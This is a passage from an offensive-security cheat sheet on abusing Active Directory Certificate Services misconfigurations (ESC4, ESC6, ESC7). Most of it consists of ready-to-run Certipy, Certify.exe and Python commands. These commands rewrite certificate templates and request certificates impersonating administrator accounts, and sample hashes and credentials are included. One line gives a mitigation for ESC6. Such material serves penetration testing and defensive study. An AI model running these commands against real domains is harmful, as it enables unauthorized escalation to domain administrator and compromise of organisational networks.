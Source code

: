 - Perform ESC1 and then restore the value
    
    ```ps1
    python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -value 0 -property mspki-Certificate-Name-Flag
    ```
    

Using Certipy

```ps1
# overwrite the configuration to make it vulnerable to ESC1
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -save-old
# request a certificate based on the ESC4 template, just like ESC1.
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC4' -alt 'administrator@corp.local'
# restore the old configuration
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -configuration ESC4.json
```

### ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2

> If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

Exploitation:

- Use [Certify.exe](https://github.com/GhostPack/Certify) to check for **UserSpecifiedSAN** flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.
    
    ```ps1
    Certify.exe cas
    ```
    
- Request a certificate for a template and add an altname, even though the default `User` template doesn't normally allow to specify alternative names
    
    ```ps1
    .\Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:User /altname:DomAdmin
    ```
    

Mitigation:

- Remove the flag : `certutil.exe -config "CA01.domain.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2`

### ESC7 - Vulnerable Certificate Authority Access Control

Exploitation:

- Detect CAs that allow low privileged users the `ManageCA` or `Manage Certificates` permissions
    
    ```ps1
    Certify.exe find /vulnerable
    ```
    
